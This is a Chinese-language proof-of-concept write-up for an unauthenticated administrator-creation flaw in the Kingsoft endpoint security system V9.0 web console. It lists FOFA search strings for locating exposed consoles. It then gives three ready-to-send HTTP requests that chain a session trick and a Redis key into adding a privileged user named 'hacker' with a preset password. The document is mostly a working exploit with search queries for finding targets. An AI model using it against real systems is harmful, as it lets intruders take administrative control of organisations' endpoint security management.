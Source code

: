 # 金山终端安全系统V9.0任意用户添加漏洞

## fofa

```javascript
title=="用户登录-猎鹰终端安全系统V9.0Web控制台" 
app="金山终端安全系统V9.0Web控制台"
```

## poc

首先访问 checklogin.php，设置$_SESSION[‘userName’]。(后续的 Cookie 保持不变)

```javascript
POST /inter/ajax.php?imd=checklogin HTTP/1.1
Host: 192.168.20.131:6868
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Origin: http://192.168.20.131:6868
Connection: close
Referer: http://192.168.20.131:6868/
Cookie: SKYLARa0aede9e785feabae789c6e03d=v70c2hbb4fnf1mqa1l9f44a964
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

uname=login_session_
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412301550929.png)

 接下来访问 send_verify2email.php 在 redis 中添加一个键值对:（mailTo 符合邮箱格式即可）

```javascript
POST /inter/ajax.php?imd=send_verify2email HTTP/1.1
Host: 192.168.20.131:6868
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Origin: http://192.168.20.131:6868
Connection: close
Referer: http://192.168.20.131:6868/
Cookie: SKYLARa0aede9e785feabae789c6e03d=v70c2hbb4fnf1mqa1l9f44a964 
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

mailTo=login_session_@qq.comEmail
```

![image-20241230155135464](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412301551573.png)

面两个步骤访问完成之后，即可未授权访问系统的所有功能，接下来通过权限校验，添加一个系统管理员，访问 get_user_login_cmd 文件即可。(userSession 需要设置成 Email，密码为 1qaz@WSX)

```javascript
POST /inter/ajax.php?cmd=get_user_login_cmd HTTP/1.1
Host: 192.168.20.131:6868
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8 X-Requested-With: XMLHttpRequest
Content-Length: 285
Origin: http://192.168.20.131:6868
Connection: close
Referer: http://192.168.20.131:6868/
Cookie: SKYLARa0aede9e785feabae789c6e03d=v70c2hbb4fnf1mqa1l9f44a964

{"add_user_info_cmd":{"userSession":"Email","mode_id":"B666A8CD-2247-2CA8-4F7D-29EB058A27C2","real_name":"","user_name":"hacker","type":"分级管理员","tel":"","mobile":"","corp":"","notice":"","psw":"92d7ddd2a010c59511dc2905b7e14f64","email":"","VHierarchyName":"","orgtype":"1"}}
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412301552673.png)

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412301552975.png)

## 漏洞来源

- https://xz.aliyun.com/t/16105